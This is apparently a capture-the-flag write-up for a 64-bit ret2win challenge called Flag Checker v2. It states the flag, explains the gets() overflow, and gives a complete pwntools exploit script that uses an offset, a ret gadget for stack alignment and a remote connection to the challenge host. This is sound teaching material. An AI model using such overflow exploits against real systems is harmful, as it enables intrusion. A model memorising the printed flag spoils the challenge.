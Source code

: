 # Misc: Flag Checker v2 

**Author**: [redtrib3](https://github.com/redtrib3)<br>
**Points**: 300<br>
**Hint(s)**: https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment (50 pts)<br>
**Flag**: `xploit{c0ntr0l_is_n0t_an_i11usion}`<br>

**Challenge description:**
```
We made a flag checker (again), so that you can check if your flags are right.

**Connect:**<br>
`nc xploitctf.live 31337`
```

## Solve

This is a continuation of last year's crypto challenge flagCheckerv1 which involved a simple stack based buffer overflow.
When you check the provided source code, this is a similar challenge that uses `gets()`. gets() does not check for bounds and therefore will lead to bufferoverflow attacks.
The code has a interesting function get_flag() that reads flag from a env variable and prints it.

```c

void get_flag(){
    printf("\033[1;91m+---------[ FLAG! 🚩]----------+\033[0m\n");
    puts(getenv("Die_Flagge"));
}

```

Our aim is to overwrite the buffer, EBP and fill in the EIP with the memory address of this function, therefore getting the flag.
don't forget stack alignment since its a 64 bit system.

## Solve:
```python
## Exploit with right values for ret2win challenge

from pwn import *

binary = './FlagCheckerv2'
elf = ELF(binary)

offset = 344 # find by fuzzing
ret_gadget = 0x401016 # align the stack cause 64 bit
win_address = elf.symbols['get_flag']

payload = b'A' * offset + p64(ret_gadget) + p64(win_address)

local = 0

if local:
    conn = process(binary)
else:
    conn = remote('xploitctf.live',31337)

print("Sending payload...")
conn.sendline(payload)

# Interact with the shell (if successful)
conn.interactive()

```

